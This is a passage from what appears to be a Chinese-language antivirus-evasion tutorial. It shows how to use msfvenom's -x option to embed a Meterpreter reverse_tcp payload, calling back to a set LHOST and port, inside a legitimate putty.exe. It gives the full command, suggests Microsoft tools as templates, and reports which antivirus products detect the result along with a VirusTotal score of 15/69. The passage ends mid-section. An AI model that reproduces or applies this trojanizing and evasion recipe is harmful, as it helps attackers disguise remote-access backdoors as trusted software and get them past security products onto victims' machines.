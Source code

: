 ![image-20220526191857605](./images/202205261918665.png)

### msf自捆绑免杀(VT查杀率15/69)

在生成payload时可以使用捆绑功能，使用msfvenom的`-x`参数可以指定一个自定义的可执行文件作为模板,并将payload嵌入其中，`-x`后面跟对应文件路径就可以。

这里使用一个正规的`putty.exe`作为被捆绑测试软件。

生成payload命令如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666  -x putty.exe  -f exe -o /mnt/hgfs/Share/payload3.exe
```

![image-20220526192124189](./images/202205261921270.png)

生成的两个文件对比，大小完全一样。能否免杀也和被捆绑exe有一定关系，可以选微软的一些工具作为模板exe程序。

![image-20220526192251559](./images/202205261922615.png)

360能查杀，火绒不能查杀。但是识别时间比前两种方法久一些（原po火绒也能查杀）。

在virustotal.com上查杀率为15/69（原po为39/69）。

360：
